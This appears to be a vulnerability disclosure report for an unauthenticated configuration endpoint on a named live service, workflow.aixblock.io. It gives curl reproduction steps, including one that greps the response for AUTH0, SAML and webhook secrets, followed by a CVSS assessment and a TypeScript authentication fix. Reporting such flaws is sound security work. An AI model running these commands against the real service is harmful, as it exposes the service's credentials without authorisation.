 
## 🔧 REPRODUCTION STEPS

### **Step 1: Basic Access Test**
```bash
curl -s "https://workflow.aixblock.io/api/v1/flags"
```

### **Step 2: Verify No Authentication Required**
```bash
curl -s "https://workflow.aixblock.io/api/v1/flags" -H "Authorization: Bearer invalid-token"
# Still returns configuration data
```

### **Step 3: Extract Sensitive Data**
```bash
curl -s "https://workflow.aixblock.io/api/v1/flags" | grep -E "(AUTH0|SAML|WEBHOOK)"
```

---

## 📊 VULNERABILITY ASSESSMENT

| **Aspect** | **Details** |
|------------|-------------|
| **CVSS Score** | 7.2 (High) |
| **Attack Vector** | Network |
| **Attack Complexity** | Low |
| **Privileges Required** | None |
| **User Interaction** | None |
| **Scope** | Unchanged |
| **Confidentiality** | High |
| **Integrity** | None |
| **Availability** | None |

---

## 🛡️ RECOMMENDED FIXES

### **1. Immediate Mitigation**
```typescript
// Add authentication requirement
app.get('/api/v1/flags', {
  preHandler: [authenticateUser],
  config: {
    allowedPrincipals: ['ADMIN', 'USER']
  }
}, async (request, reply) => {
  // Filter sensitive configuration
  const safeFlags = filterSensitiveFlags(await flagService.getAll());
  return { flags: safeFlags };
});
```
